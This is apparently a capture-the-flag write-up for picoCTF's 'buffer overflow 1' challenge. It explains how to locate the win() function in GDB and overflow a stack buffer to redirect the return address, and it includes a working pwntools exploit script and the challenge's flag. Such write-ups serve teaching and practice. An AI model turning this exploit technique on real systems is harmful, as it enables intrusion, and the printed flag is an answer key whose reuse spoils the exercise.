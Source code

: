 # buffer overflow 1

Control the return address [vuln](./vuln.c).

Author: Sanjay C / Palash Oswal

200 Points

---
## Solution

This is a very straight forward stack overflow problem where we must control the return address of the function to access a different function in the program. The first thing we can do is run the program through GDB and `break main`. We can then `info functions | grep win` to see the list of functions in the binary and see the `win()` condition is at `0x080491f6`.

We can also see that there is an expected user buffer of fixed length, so that means we can write past that buffer and control the return address. It's as simple as putting those two together, but writing the entire buffer up to the return address, and then putting in the `win()` address in litle-endian format.

Here's my code in my [exploit.py](./exploit.py):
```Python
from pwn import *

# Address of win() is 0x080491f6
buffer = (b"A" * 44) + b"\xf6\x91\x04\x08"

io = remote('saturn.picoctf.net', 52595)

io.sendline(buffer)
output = io.recvall()
print(output.decode())

io.close()
```

---
## Flag
```
picoCTF{addr3ss3s_ar3_3asy_a8284f4f}
```